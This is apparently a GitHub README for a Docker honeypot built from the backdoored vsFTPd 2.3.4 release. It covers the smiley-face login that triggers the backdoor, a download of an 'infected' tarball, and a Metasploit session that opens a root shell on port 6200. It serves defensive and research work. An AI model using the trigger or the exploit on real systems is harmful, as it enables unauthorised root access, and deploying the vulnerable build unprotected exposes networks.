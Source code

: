 ### vsFTPd 2.3.4

As this is in the Honey Net branch, you should assume that it is meant for creation of Honey Pots only. 

You should never expose this build in your actual network unless you take proper precautions.

This is a build for the original backdoored vsFTPd 2.3.4 software.

The way the exploit works is by sending any login string with a smiley face at the end such as:

```
USER nks:)
PASS noclue
```
This will break out a backdoor on port 6200 which you can then connect to and get access to the system.

The way it was backdoored was with rogue functions in 2 .C files and then re-uploaded to the original hosting website, until someone found it.

Since this is a well known vulnerability, it will do well in a Honey Pot, more specifically, it will be useful to filter out typical scanners from someone that is actually trying to exploit your network. 

When this kind of action is logged in whatever solution you want to use, you can blacklist that IP before it continues attacking the rest of your network. 

Since attackers usually go for weaker targets first, they should focus on this kind of application before anything else, which will give you ample time to prepare and blacklist. This can also serve for re-search purposes, as depending on your logging software, you can log what the attacker is doing once they gain access.

INSTRUCTIONS:

1.Follow the link and instructions on my Docker account:

https://hub.docker.com/r/nksnksnks/vsftpd.2.3.4-vuln-osvdb-73573/ 

https://store.docker.com/community/images/nksnksnks/vsftpd.2.3.4-vuln-osvdb-73573

Pull the image from here with:

```
docker pull nksnksnks/vsftpd.2.3.4-vuln-osvdb-73573
```

If this is successfull, skip to step 5 and add the appropriate image name or better yet follow the instructions on the Link above.

If for some reason you can't pull and wan't do to it manually, follow the steps below.

2. Download all of the files from the repository, including the vulnerable application.

The way I do this that is most efficient is right clicking on the Download button for example at the .tar.gz app and clicking on Copy Link Location.

Then you can go to your server and download it via:

```
wget https://github.com/n-ks/Honey-Net/raw/master/FTP/vsFTPd%202.3.4/vsftpd-2.3.4-infected.tar.gz (Re-Do this yourself, the URL here might change)
```

3. Once you have all of your files in one location, extract the .tar.gz with:

```
tar xvf vsftpd-2.3.4-infected.tar.gz
```

4. Everything you need should be there, now can you build your Docker Image:

```
docker build -t <docker-image-name> .
```

Note that since it will install,update,upgrade stuff this can take a while. (Some errors are also normal, especially in the manual build)

5. After your image is successfully built, you can raise it with:

```
docker run -itd -p 21:21 -p 6200:6200 <docker-image-name>
```

Note that if you do not want this application to be vulnerable and only want attackers to try and break in and not actually succeed you can remove -p 6200:6200. (The actual backdoor port) So basically the Docker will be exploited and will open a 6200 port but not to your host system.

6. To enter your new container and install whatever logging system you want, you can do the following:

```
docker exec -u 0 -it <container-name> bash
```

7. Congratulations, you have a working vulnerable app.

___NOTE: The OS on which this was tested was Ubuntu 16.04 LTS with Docker CE installed.___

___NOTE 2: The image used from Docker Hub is Debian based, so any logging solution that you can think of that will work with Debian will probably work for you, only thing to keep in mind is the ports you'll need to add for said solution.___

___NOTE 3: Make sure you limit your containers resources and security so it doesn't spread on your host in any way.___

Result:

```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.1.3
RHOST => 192.168.1.3
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.1.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.3:21 - USER: 331 Please specify the password.
[+] 192.168.1.3:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.4:43985 -> 192.168.1.3:6200) at 2018-05-30 11:58:15 +0200

id
uid=0(root) gid=0(root) groups=0(root)
^C
Abort session 1? [y/N]  y

[*] 192.168.1.3 - Command shell session 1 closed.  Reason: User exit
msf exploit(unix/ftp/vsftpd_234_backdoor) > 
```

I've used one of the more general exploits to get in, with MSF, which was successfull.
